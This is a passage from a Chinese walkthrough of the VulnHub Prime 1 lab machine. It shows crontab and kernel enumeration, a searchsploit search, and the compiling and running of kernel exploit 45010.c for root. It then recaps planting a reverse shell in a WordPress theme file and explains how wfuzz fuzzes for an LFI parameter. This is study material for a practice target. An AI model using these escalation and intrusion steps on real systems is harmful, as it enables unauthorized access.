www-data@ubuntu:/var/www/html$ cd /home/saket
www-data@ubuntu:/home/saket$ ls
enc  password.txt  user.txt
www-data@ubuntu:/home/saket$ cat user.txt
af3c658dcf9d7190da3153519c003456
```

顺便拿到了 user flag：`af3c658dcf9d7190da3153519c003456`。

### 计划任务

```bash
www-data@ubuntu:/home$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
@reboot                 bash /root/t.sh
#
```

crontab 里有一条 `@reboot bash /root/t.sh`，root 在开机时会执行 `/root/t.sh`。要靠它提权得能改写这个脚本，但它在 root 家目录下，当前 www-data 没有权限动它，这条路暂时搁置。

### 内核版本

sudo 那条 `/home/saket/enc` 需要先逆向或猜出它要的密码，计划任务那条又改不动脚本，我当时没在这两条上继续耗，转而看内核版本碰碰运气：

```bash
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48
www-data@ubuntu:/tmp$ cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

内核 4.10.0-28、系统 Ubuntu 16.04.3，这个版本组合有不少现成的本地提权 EXP，值得一试。

## 3.2 内核提权

用 searchsploit 搜对应版本的本地提权 EXP：

```bash
┌──(kali㉿kali)-[~/vulnhub/prime1]
└─$ searchsploit linux kernel 4.10 |grep -i 'Priv'
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                                                             | solaris/local/15962.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation (5) | linux/local/9479.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                                                                     | linux/local/50135.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                  | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)             | linux/local/37293.txt
Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation                                                       | linux/local/47163.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                                            | linux/local/41886.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                                                                          | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation                                                     | linux/local/45553.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                         | linux/local/45010.c   # <-- 重点关注
```

候选里 `45010.c`（Linux Kernel < 4.13.9）明确标注适用 Ubuntu 16.04，跟目标的内核版本和系统版本都对得上，优先选它。把它下载下来，传到目标 `/tmp` 目录后编译：

```bash
www-data@ubuntu:/tmp$ gcc 45010.c -o 45010
www-data@ubuntu:/tmp$ ls
41886.c
45010
45010.c
VMwareDnD
a.out
systemd-private-ac1d6181c4f44cc1a58945185b3f5789-colord.service-qFLfFP
systemd-private-ac1d6181c4f44cc1a58945185b3f5789-rtkit-daemon.service-pwcvsB
systemd-private-ac1d6181c4f44cc1a58945185b3f5789-systemd-timesyncd.service-SSKui0
vmware-root
```

赋予执行权限后运行：

```bash
www-data@ubuntu:/tmp$ chmod +x 45010
www-data@ubuntu:/tmp$ ls -l
total 72
-rw-r--r-- 1 www-data www-data  2368 Jun 22 18:34 41886.c
-rwxr-xr-x 1 www-data www-data 18432 Jun 22 19:22 45010
-rw-r--r-- 1 www-data www-data 13176 Jun 22 18:45 45010.c
drwxrwxrwt 2 root     root      4096 Jun 17 04:48 VMwareDnD
-rwxr-xr-x 1 www-data www-data  8920 Jun 22 18:34 a.out
drwx------ 3 root     root      4096 Jun 17 04:49 systemd-private-ac1d6181c4f44cc1a58945185b3f5789-colord.service-qFLfFP
drwx------ 3 root     root      4096 Jun 17 04:49 systemd-private-ac1d6181c4f44cc1a58945185b3f5789-rtkit-daemon.service-pwcvsB
drwx------ 3 root     root      4096 Jun 17 04:48 systemd-private-ac1d6181c4f44cc1a58945185b3f5789-systemd-timesyncd.service-SSKui0
drwx------ 2 root     root      4096 Jun 17 04:48 vmware-root
www-data@ubuntu:/tmp$ ./45010
```



EXP 执行成功，拿到 root 权限。



---

# 4.总结

这次打靶我靠自己找到了 LFI 这个漏洞，感觉非常开心。刚开始我没找到思路，并被这台靶机困难的标签给吓到了，但是我没放弃，在将靶机搁置一段时间后，重新分析之前收集到的信息，找到了突破点。

说一下这台靶机的攻击链，通过层层解谜，分析信息，得到新的利用点，找到了存在 LFI 漏洞的参数。分析 /etc/passwd 文件，得到了后续的提示，获得了一个凭证。拿到这个凭证，成功登入了 WordPress，在 WordPress 中学到一些常见的 WordPress 权限立足方案。如 Appearance 和 Plugins 都可能存在突破口，最终在 Appearance 中找到了可以编辑的 PHP 文件，我往里添加了反弹 Shell，成功获取主机 Webshell。

到了提权阶段，这次提权比较简单，直接通过内核提权 EXP 直接拿下 root 权限。但是在这个过程中我还是有些疑惑，该怎么去分析什么时候使用内核提权，是积累经验吗？这个内核版本存在可以稳定复现的内核提权漏洞，并且有 gcc 吧。

---

# 5.补充

## 5.1 FUZZ 参数详解

下面这段信息是通过 fuzz 爆破 GET 参数的积累，但是在这个过程中我遇到了如何过滤的问题，对这个问题我进行了一些搜索和总结。

```bash
┌──(kali㉿kali)-[~/vulnhub/prime1/web]
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 500 http://192.168.200.128/index.php?FUZZ=something
/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.200.128/index.php?FUZZ=something
Total requests: 951

==================================================================
ID           Response   Lines    Word     Chars       Payload
==================================================================

000000001:   200        7 L      12 W     136 Ch      "@"
000000042:   200        7 L      12 W     136 Ch      "administrator"
000000050:   200        7 L      12 W     136 Ch      "agent"
...
000000325:   200        7 L      12 W     136 Ch      "exchange"
000000341:   200        7 L      19 W     206 Ch      "file"
000000343:   200        7 L      12 W     136 Ch      "filter"
```

---
### Lines / Word / Chars 是什么

这三个值统计的是服务器返回的 HTTP 响应体（页面内容），不是请求，也不是响应头：

- **Lines (L)**：响应内容按换行符 `\n` 分割后的行数
- **Word (W)**：响应内容按空白字符（空格/换行/Tab）分割后的单词数，类似 Linux `wc -w` 的算法
- **Chars (Ch)**：响应内容的总字符数（字节数），类似 `wc -c`

wfuzz 拿到 HTTP 响应后，把 body 内容丢给类似 `wc` 的统计逻辑，分别算出这三个数字显示在结果里，方便用 `--hl / --hw / --hh` 做过滤。

### 怎么验证/计算

可以直接用 curl 实测，比如对 "exchange" 这个参数值发请求，把返回内容用 `wc` 验证：

```bash
curl -s "http://192.168.200.128/index.php?FUZZ=exchange" | wc -lwc
```

`wc` 的输出顺序是「行数 单词数 字符数」，应该正好对应 wfuzz 显示的 7 L / 12 W / 136 Ch。

### 这次该怎么筛选

已经"目测"出来了规律：

- 大部分无效参数返回的都是 7 L / 12 W / 136 Ch（说明 index.php 对无效参数走了同一个"默认/报错"分支，内容长度都一样）
- 只有 `"file"` 这一条是 7 L / 19 W / 206 Ch，明显跟其他的不一样

所以筛选思路就是：把那个"大多数、重复出现"的噪音值过滤掉，剩下的就是真正命中的参数。

直接在原命令上加 `--hw 12`（隐藏字数为 12 的响应）：

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 12 http://192.168.200.128/index.php?FUZZ=something
```

或者用字符数过滤，效果一样：

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hh 136 http://192.168.200.128/index.php?FUZZ=something
```

跑完之后，输出列表里就只剩下 `"file"` 这一条（以及可能少数几个特殊的），说明 `index.php?file=xxx` 是这个网页真正接受的有效参数，很可能藏着文件包含（LFI）之类的漏洞，可以接着往下打。

---

# 6.参考链接

- https://medium.com/@inotp/vulnhub-prime-1-walkthrough-ad521a1ac255
- https://www.bilibili.com/video/BV1yP41177h7/?spm_id_from=333.1387.favlist.content.click

